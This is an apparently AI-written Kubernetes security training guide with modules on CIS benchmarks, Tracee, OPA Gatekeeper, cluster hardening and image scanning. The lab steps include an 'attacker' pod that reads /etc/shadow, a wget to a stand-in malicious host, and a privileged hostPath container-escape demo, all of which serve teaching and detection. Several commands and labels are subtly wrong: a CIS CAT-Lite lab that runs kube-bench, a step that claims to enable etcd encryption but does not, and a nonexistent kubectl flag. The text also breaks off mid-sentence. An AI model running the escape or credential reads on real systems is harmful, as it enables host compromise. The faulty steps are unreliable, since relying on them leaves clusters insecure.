




### Comprehensive Kubernetes Learning Guide for DevOps Engineers

As a DevOps/Cloud Engineer with 4+ years of experience transitioning to Kubernetes, I'll create a detailed guide for each module. Since you're a beginner in K8s but have infrastructure experience, I'll focus on building foundational knowledge while connecting to your existing expertise.

---

### **Module 1: Securing Kubernetes Cluster**
#### **Learning Objectives**
- Understand Kubernetes security fundamentals
- Identify critical attack surfaces
- Implement foundational security controls
- Apply CIS benchmarks for compliance

#### **Key Concepts**
- **Attack Surface Areas**: API server, etcd, kubelet, network plugins, container runtime
- **4C's Security Model**: Cloud → Cluster → Container → Code
- **Defense-in-Depth**: Layered security approach
- **Compliance Frameworks**: CIS, NIST, PCI-DSS

#### **Deep Dive**
**Kubernetes Attack Surface**


**4C's Security Model**
1. **Cloud**: Infrastructure security (IAM, VPC, encryption)
2. **Cluster**: K8s components (RBAC, Network Policies, Secrets)
3. **Container**: Image security (base images, vulnerabilities)
4. **Code**: Application security (dependencies, secrets management)

#### **Lab Preparation**
1. **Prerequisites**:
   - Kubernetes cluster (minikube/kind or cloud-based)
   - kubectl configured
   - Basic Linux command line knowledge
   - Docker installed (for container labs)

2. **Tool Installation**:
   ```bash
   # Install kube-bench (CIS benchmark tool)
   curl -L https://github.com/aquasecurity/kube-bench/releases/download/v0.6.9/kube-bench_0.6.9_linux_amd64.deb -o kube-bench.deb
   sudo dpkg -i kube-bench.deb

   # Install Docker Bench
   docker run -it --net host --pid host --cap-add audit_control \
     -v /var/lib:/var/lib \
     -v /var/run/docker.sock:/var/run/docker.sock \
     -v /etc:/etc --label docker_bench_security \
     docker/docker-bench-security
   ```

#### **Step-by-Step Lab Guide**
**LAB: Using CIS CAT-Lite**
1. Run benchmark scan:
   ```bash
   kube-bench run --targets master,node
   ```
2. Analyze results:
   - Focus on `[FAIL]` entries
   - Prioritize "Level 1" critical findings
3. Remediate sample finding:
   ```yaml
   # Fix for anonymous-auth in API server
   # Edit /etc/kubernetes/manifests/kube-apiserver.yaml
   spec:
     containers:
     - command:
       - kube-apiserver
       - --anonymous-auth=false
   ```

**LAB: Using Kube Bench Security**
1. Run node-specific checks:
   ```bash
   kube-bench run --targets node --check 2.2
   ```
2. Generate report:
   ```bash
   kube-bench run --json | jq '.[].tests[].results | select(.status == "FAIL")'
   ```

**LAB: Using Tracee**
1. Deploy Tracee:
   ```bash
   kubectl apply -f https://raw.githubusercontent.com/aquasecurity/tracee/main/deploy/kubernetes/tracee.yaml
   ```
2. Trigger security event:
   ```bash
   kubectl run attacker --image=alpine -- sh -c 'cat /etc/shadow'
   ```
3. View detections:
   ```bash
   kubectl logs -f deployment/tracee -n tracee
   ```

#### **Common Issues & Troubleshooting**
| Issue | Solution |
|-------|----------|
| kube-bench permission errors | Run with `sudo` or check RBAC permissions |
| Tracee not detecting events | Ensure kernel headers match host kernel |
| Docker bench fails on minikube | Use `minikube ssh` to run inside node |

#### **Real-World Applications**
- **Compliance Audits**: Automate CIS scans in CI/CD pipelines
- **Incident Response**: Use Tracee for real-time threat detection
- **Hardening Standards**: Implement CIS controls in cluster provisioning

#### **Further Resources**
- [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes/)
- [Kubernetes Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html)
- [Tracee GitHub](https://github.com/aquasecurity/tracee)

---

### **Module 2: Understanding Kubernetes Attack Surface**
#### **Learning Objectives**
- Map attack vectors to cluster components
- Identify common exploitation techniques
- Prioritize security controls based on risk

#### **Key Concepts**
- **Attack Vectors**: API server, etcd, kubelet, network, containers
- **Exploitation Techniques**: Privilege escalation, container escape, network attacks
- **Threat Modeling**: STRIDE methodology (Spoofing, Tampering, Repudiation, Info Disclosure, DoS, Elevation)

#### **Deep Dive**
**Critical Attack Paths**
1. **API Server Compromise**
   - Weak authentication
   - Exposed dashboard
   - Token theft

2. **etcd Attacks**
   - Unencrypted access
   - Backup compromise
   - Man-in-the-middle

3. **Container Escapes**
   - Privileged containers
   - HostPath mounts
   - Vulnerable kernels

4. **Network Attacks**
   - Pod-to-pod snooping
   - DNS spoofing
   - Service hijacking

#### **Lab Preparation**
1. Deploy vulnerable test cluster:
   ```bash
   kind create cluster --config kind-config.yaml
   ```
   (Use config with exposed API server and privileged pods)

#### **Step-by-Step Lab Guide**
1. **Simulate API Server Attack**:
   ```bash
   # Find API server endpoint
   kubectl cluster-info
   
   # Attempt anonymous access
   curl -k https://<api-server-ip>:<port>/version
   ```

2. **Container Escape Demo**:
   ```bash
   # Run privileged container
   kubectl run priv-pod --image=alpine --overrides='{"spec":{"containers":[{"name":"priv-pod","image":"alpine","command":["sh","-c","chroot /host"],"securityContext":{"privileged":true},"volumeMounts":[{"name":"host-root","mountPath":"/host"}]}],"volumes":[{"name":"host-root","hostPath":{"path":"/"}}]}}'
   
   # Access host filesystem
   kubectl exec -it priv-pod -- ls /host
   ```

#### **Common Issues & Troubleshooting**
- **Privileged pod fails**: Check if cluster allows privileged containers
- **API server inaccessible**: Verify network policies and firewall rules

#### **Real-World Applications**
- **Penetration Testing**: Simulate attacks to validate defenses
- **Security Architecture**: Design clusters with attack surface reduction
- **Incident Simulation**: Train teams on threat response

#### **Further Resources**
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/container/)
- [Kubernetes Threat Matrix](https://www.microsoft.com/security/blog/2020/04/02/secure-microservices-applications-with-kubernetes-part-1/)

---

### **Module 3: CNCF Projects**
#### **Learning Objectives**
- Identify key CNCF security projects
- Implement Falco for runtime security
- Use OPA for policy management

#### **Key Concepts**
- **CNCF Security Landscape**: Runtime security, policy enforcement, supply chain
- **Falco**: Runtime security monitoring
- **OPA**: Policy-as-Code framework
- **SPIFFE/SPIRE**: Identity management

#### **Deep Dive**
**CNCF Security Projects**


#### **Lab Preparation**
1. Install Helm:
   ```bash
   curl https://baltocdn.com/helm/signing.asc | gpg --dearmor | sudo tee /usr/share/keyrings/helm.gpg > /dev/null
   echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/helm.gpg] https://baltocdn.com/helm/stable/debian/ all main" | sudo tee /etc/apt/sources.list.d/helm-stable-debian.list
   sudo apt-get update
   sudo apt-get install helm
   ```

#### **Step-by-Step Lab Guide**
**LAB: Using OPA with Kubernetes**
1. Install OPA Gatekeeper:
   ```bash
   helm repo add gatekeeper https://open-policy-agent.github.io/gatekeeper/charts
   helm install gatekeeper/gatekeeper --name-template=gatekeeper --namespace gatekeeper-system --create-namespace
   ```

2. Create policy to block privileged containers:
   ```yaml
   apiVersion: constraints.gatekeeper.sh/v1beta1
   kind: K8sPSPPrivilegedContainer
   metadata:
     name: no-privileged-containers
   spec:
     match:
       kinds:
         - apiGroups: [""]
           kinds: ["Pod"]
   ```

3. Test policy:
   ```bash
   # Attempt to create privileged pod (should fail)
   kubectl apply -f privileged-pod.yaml
   ```

#### **Common Issues & Troubleshooting**
- **Gatekeeper not enforcing**: Check webhook configuration and OPA logs
- **Policy syntax errors**: Use `opa test` for validation

#### **Real-World Applications**
- **Compliance Enforcement**: Automatically reject non-compliant resources
- **Multi-tenancy**: Isolate tenant workloads with policies
- **GitOps Integration**: Embed policies in CI/CD pipelines

#### **Further Resources**
- [OPA Kubernetes Documentation](https://www.openpolicyagent.org/docs/latest/kubernetes/)
- [Falco GitHub](https://github.com/falcosecurity/falco)

---

### **Module 4: 4C's of Security**
#### **Learning Objectives**
- Implement defense-in-depth strategy
- Apply security at each layer
- Map controls to compliance requirements

#### **Deep Dive**
**Layered Security Implementation**


#### **Lab Preparation**
1. Create multi-layer security testbed:
   - Cloud: AWS/Azure/GCP with KMS
   - Cluster: EKS/AKS/GKE with encryption
   - Container: Minimal base images
   - Code: SAST/DAST tools

#### **Step-by-Step Lab Guide**
1. **Cloud Layer**:
   ```bash
   # Enable KMS encryption for EKS
   aws eks create-cluster --name secure-cluster --encryption-config '[{"provider":{"keyArn":"arn:aws:kms:us-west-2:123456789012:key/xxxx"},"resources":["secrets"]}]'
   ```

2. **Cluster Layer**:
   ```bash
   # Enable etcd encryption
   kubectl get secrets -n kube-system -o json | kubectl replace -f -
   ```

3. **Container Layer**:
   ```bash
   # Run non-root container
   kubectl run secure-pod --image=nginx:alpine --security-context='{"runAsNonRoot":true,"runAsUser":1000}'
   ```

#### **Real-World Applications**
- **Financial Services**: PCI-DSS compliance at all layers
- **Healthcare**: HIPAA data protection implementation
- **Government**: FedRAMP controls mapping

#### **Further Resources**
- [NIST SP 800-204](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-204.pdf)
- [Cloud Native Security Whitepaper](https://www.cncf.io/wp-content/uploads/2020/08/CNCF_Security_Whitepaper_v1.pdf)

---

### **Module 5: Cluster Hardening**
#### **Learning Objectives**
- Implement CIS benchmark controls
- Secure control plane components
- Configure network policies

#### **Deep Dive**
**Critical Hardening Areas**
1. **Control Plane**:
   - API server: `--anonymous-auth=false`, `--authorization-mode=Node,RBAC`
   - etcd: Encryption, TLS, backup security
   - Scheduler/Kube-controller: RBAC restrictions

2. **Worker Nodes**:
   - Kubelet: Client/server certs, read-only ports
   - Container runtime: User namespaces, seccomp
   - Kernel: Hardening with sysctls

#### **Lab Preparation**
1. Install kube-hunter:
   ```bash
   pip install kube-hunter
   ```

#### **Step-by-Step Lab Guide**
1. Run vulnerability scan:
   ```bash
   kube-hunter --remote <cluster-ip> --log warn
   ```

2. Apply network policy:
   ```yaml
   apiVersion: networking.k8s.io/v1
   kind: NetworkPolicy
   metadata:
     name: default-deny
   spec:
     podSelector: {}
     policyTypes:
     - Ingress
     - Egress
   ```

#### **Common Issues & Troubleshooting**
- **Network policies not working**: Verify CNI supports NetworkPolicy
- **etcd encryption fails**: Check KMS key permissions

#### **Further Resources**
- [Kubernetes Hardening Guide](https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/)
- [kube-hunter Documentation](https://github.com/aquasecurity/kube-hunter)

---

### **Module 6: CIS Benchmarks**
#### **Learning Objectives**
- Automate CIS compliance checks
- Remediate common violations
- Integrate benchmarks into CI/CD

#### **Deep Dive**
**CIS Benchmark Categories**
1. **Control Plane Security** (1.1-1.7)
   - API server configurations
   - Scheduler settings
   - Controller manager security

2. **Worker Node Security** (2.1-2.8)
   - Kubelet configurations
   - Container runtime settings
   - Kernel parameters

3. **Policies** (3.1-3.2)
   - RBAC configurations
   - Network policies

#### **Lab Preparation**
1. Install kube-bench as shown in Module 1

#### **Step-by-Step Lab Guide**
1. Generate compliance report:
   ```bash
   kube-bench run --json > report.json
   ```

2. Automate remediation with a script:
   ```bash
   #!/bin/bash
   # Fix anonymous-auth
   sed -i 's/--anonymous-auth=true/--anonymous-auth=false/g' /etc/kubernetes/manifests/kube-apiserver.yaml
   systemctl restart kubelet
   ```

#### **Real-World Applications**
- **Compliance Automation**: Integrate with Jenkins/GitHub Actions
- **Audit Preparation**: Generate reports for assessors
- **Continuous Monitoring**: Schedule regular scans

#### **Further Resources**
- [CIS Kubernetes Benchmark PDF](https://www.cisecurity.org/benchmark/kubernetes/)
- [kube-bench Customization Guide](https://github.com/aquasecurity/kube-bench/blob/main/docs/customizing.md)

---

### **Module 7: LAB: Using Docker Bench Security**
#### **Learning Objectives**
- Assess Docker daemon security
- Identify container runtime vulnerabilities
- Implement Docker security best practices

#### **Step-by-Step Lab Guide**
1. Run Docker Bench:
   ```bash
   docker run -it --net host --pid host --cap-add audit_control \
     -v /var/lib:/var/lib \
     -v /var/run/docker.sock:/var/run/docker.sock \
     -v /etc:/etc --label docker_bench_security \
     docker/docker-bench-security
   ```

2. Analyze critical findings:
   - Check for: `2.1 - Ensure network traffic is restricted`
   - Verify: `4.1 - Ensure a user for the container has been created`

3. Remediate sample issue:
   ```bash
   # Create Docker daemon config
   cat > /etc/docker/daemon.json <<EOF
   {
     "icc": false,
     "userns-remap": "default"
   }
   EOF
   systemctl restart docker
   ```

#### **Common Issues & Troubleshooting**
- **Permission denied**: Run with `sudo` or check Docker socket permissions
- **Outdated benchmarks**: Pull latest image with `docker pull docker/docker-bench-security`

#### **Real-World Applications**
- **Container Platform Security**: Secure Docker hosts in production
- **DevSecOps Integration**: Include in image build pipelines
- **Compliance Reporting**: Generate evidence for auditors

#### **Further Resources**
- [Docker Bench Security GitHub](https://github.com/docker/docker-bench-security)
- [Docker Security Best Practices](https://docs.docker.com/engine/security/)

---

### **Module 8: LAB: Using Kube Bench Security**
#### **Learning Objectives**
- Validate Kubernetes cluster against CIS
- Automate compliance reporting
- Prioritize remediation efforts

#### **Step-by-Step Lab Guide**
1. Run targeted scan:
   ```bash
   kube-bench run --check 1.1.1,1.1.2,1.1.3
   ```

2. Generate HTML report:
   ```bash
   kube-bench run --outputfile report.html --outputformat html
   ```

3. Automate with Kubernetes Job:
   ```yaml
   apiVersion: batch/v1
   kind: Job
   metadata:
     name: kube-bench
   spec:
     template:
       spec:
         containers:
         - name: kube-bench
           image: aquasec/kube-bench:latest
           command: ["kube-bench", "run"]
         restartPolicy: Never
   ```

#### **Common Issues & Troubleshooting**
- **Job fails with permission error**: Add service account with RBAC permissions
- **Missing configuration files**: Mount host paths with volumes

#### **Real-World Applications**
- **Compliance as Code**: Include in GitOps workflows
- **Multi-Cluster Scanning**: Run across fleet of clusters
- **Security Metrics**: Track compliance over time

#### **Further Resources**
- [kube-bench Examples](https://github.com/aquasecurity/kube-bench/tree/main/cfg)
- [Kubernetes CIS Benchmark Mapping](https://www.cisecurity.org/benchmark/kubernetes/)

---

### **Module 9: LAB: Using Tracee**
#### **Learning Objectives**
- Implement runtime threat detection
- Investigate security events
- Create custom detection rules

#### **Step-by-Step Lab Guide**
1. Deploy Tracee:
   ```bash
   kubectl apply -f https://raw.githubusercontent.com/aquasecurity/tracee/main/deploy/kubernetes/tracee.yaml
   ```

2. Trigger detection event:
   ```bash
   kubectl run attacker --image=alpine -- sh -c 'wget http://malicious.com'
   ```

3. View detections:
   ```bash
   kubectl logs -f deployment/tracee -n tracee | grep 'STANDARD_API_CALL'
   ```

4. Create custom rule:
   ```yaml
   apiVersion: tracee.aquasecurity.com/v1alpha1
   kind: TraceePolicy
   metadata:
     name: file-integrity
   spec:
     rules:
     - event: openat
       args:
       - index: 1
         operator: prefix
         value: "/etc/"
   ```

#### **Common Issues & Troubleshooting**
- **No events detected**: Check kernel version compatibility (≥4.18)
- **High resource usage**: Reduce event filters in configuration

#### **Real-World Applications**
- **Forensics**: Investigate security incidents
- **Zero-Day Detection**: Identify novel attack patterns
- **DevSecOps**: Integrate with SIEM systems

#### **Further Resources**
- [Tracee Rules Documentation](https://github.com/aquasecurity/tracee/blob/main/docs/rules.md)
- [eBPF for Security](https://ebpf.io/applications/#security)

---

### **Module 10: Securing Image Supply Chain**
#### **Learning Objectives**
- Implement container image security
- Prevent supply chain attacks
- Automate vulnerability scanning

#### **Deep Dive**
**Supply Chain Security Layers**


#### **Lab Preparation**
1. Install Trivy and Dive:
   ```bash
   # Install Trivy
   curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sh -s -- -b /usr/local/bin

   # Install Dive
   wget https://github.com/wagoodman/dive/releases/download/v0.10.0/dive_0.10.0_linux_amd64.deb
   sudo apt install ./dive_0.10.0_linux_amd64.deb
   ```

#### **Step-by-Step Lab Guide**
**LAB: Exploring Container Images with Dive**
1. Analyze image layers:
   ```bash
   dive nginx:alpine
   ```
   - Check for: Large layers, unnecessary packages, sensitive files

**LAB: Scanning Container Images with Trivy**
1. Scan local image:
   ```bash
   trivy image nginx:alpine
   ```

2. Scan Kubernetes deployment:
   ```bash
   trivy k8s --all-namespaces
   ```

**LAB: Scanning Kubernetes Resources using Kubesec**
1. Install Kubesec:
   ```bash
   brew install kubesec  # Mac
   # Linux: https://github.com/controlplaneio/kubesec/releases
   ```

2. Scan deployment:
   ```bash
   kubesec scan deployment.yaml
   ```

**LAB: Auditing Kubernetes Configurations using Polaris**
1. Deploy Polaris:
   ```bash
   helm repo add fairwinds-stable https://charts.fairwinds.com/stable
   helm install polaris fairwinds-stable/polaris
   ```

2. View dashboard:
   ```bash
   kubectl port-forward svc/polaris-dashboard 8080:80
   ```

#### **Common Issues & Troubleshooting**
- **Trivy fails to scan**: Check internet access for vulnerability DB
- **Polaris dashboard not accessible**: Verify service type and port

#### **Real-World Applications**
- **Shift-Left Security**: Integrate scanning in CI/CD
- **Compliance Enforcement**: Block non-compliant deploy
